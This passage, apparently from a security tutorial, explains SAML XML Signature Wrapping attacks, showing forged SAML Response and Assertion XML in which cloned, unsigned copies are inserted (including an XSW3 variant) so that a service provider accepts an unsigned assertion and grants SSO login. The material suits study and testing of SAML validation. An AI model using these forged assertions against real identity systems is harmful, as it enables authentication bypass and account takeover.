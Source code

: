 ```
</AuthnStatement>
</Assertion>
<!-- Cloned, unsigned copy of Response -->
<Response>
<Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
<Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
<StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
</Status>
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
</Assertion>
</Response>
</Response>
```
In the above example, all SAML elements in the original Response were preserved and a cloned copy of Response was added unsigned. Both the original and cloned Response contain Assertions produced by the same identity provider. What we do here is to try to get authorization from SP by sending an unsigned response before the correct response and signature and to log in with SSO.

- XSW3 :// a cloned, unsigned copy of Assertion is inserted in front of the existing Assertion.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
</Assertion>
<!-- Cloned, unsigned copy of Assertion -->
```